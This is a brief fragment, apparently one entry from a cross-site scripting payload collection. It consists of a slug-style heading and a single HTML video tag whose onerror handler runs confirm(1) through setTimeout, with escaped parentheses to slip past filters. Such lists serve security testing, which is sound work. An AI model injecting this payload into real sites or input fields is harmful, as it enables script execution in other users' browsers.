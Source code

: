 # lessvideo-src-greater--onerrorsettimeoutconfirmx281x29greater-path
&lt;video src=">" onerror=setTimeout`confirm\x281\x29`>
